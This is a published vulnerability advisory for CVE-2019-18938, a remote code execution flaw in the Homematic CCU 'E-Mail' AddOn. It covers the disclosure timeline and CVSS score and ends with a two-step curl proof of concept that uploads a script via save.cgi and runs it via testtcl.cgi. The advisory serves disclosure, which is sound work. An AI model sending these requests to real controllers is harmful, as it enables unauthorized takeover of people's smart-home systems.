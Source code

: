 ```yaml
---
layout: post
title:  "CVE-2019-18938 eQ-3 Homematic AddOn 'E-Mail' version 1.6.8.c and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of the save.cgi script for payload upload and the testtcl.cgi script for its execution"
datetime: 2019-11-13 20:00:00 MET
last_modified_at: 2020-11-05 21:10:00 MET
author: 'psytester'
---
```




# Overview

- CVE: CVE-2019-18938
- Author: psytester
- Title: eQ-3 Homematic AddOn 'E-Mail' version 1.6.8.c and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of the save.cgi script for payload upload and the testtcl.cgi script for its execution
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: 05.11.2020
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'E-Mail' AddOn contacted: 13.08.2019 as [issue #11](https://github.com/jens-maus/hm_email/issues/11)
  - Developer of 'E-Mail' AddOn confirmation: N.A.
  - 'E-Mail' AddOn patch: [Version 1.7.0](https://github.com/homematic-community/hm_email/releases/tag/1.7.0) released on 04.11.2020
  - Affected 'E-Mail' AddOn version: 1.6.8.c and prior

# Background

From [Github 'E-Mail' AddOn project page](https://github.com/jens-maus/hm_email):<br>
A HomeMatic/CCU Addon to send emails from a CCU system either by directly calling a script from the CCU WebUI programming interface or via CUxD devices being used within the CCU system.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'E-Mail' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. Upload the payload to CCU embedded in system.Exec() commands or if also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/email/save.cgi?userScript' --data '
load tclrega.so
array set values [rega_script {
var x=system.Exec("sleep 4;");
var x=system.Exec("/bin/touch /tmp/testfile1;");
var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile2");
}]'
```

2. Execute the payload by calling:<br>
```
curl -X GET -i 'http://1.2.3.4/addons/email/testtcl.cgi'
```

# CVE

[CVE-2019-18938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18938)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
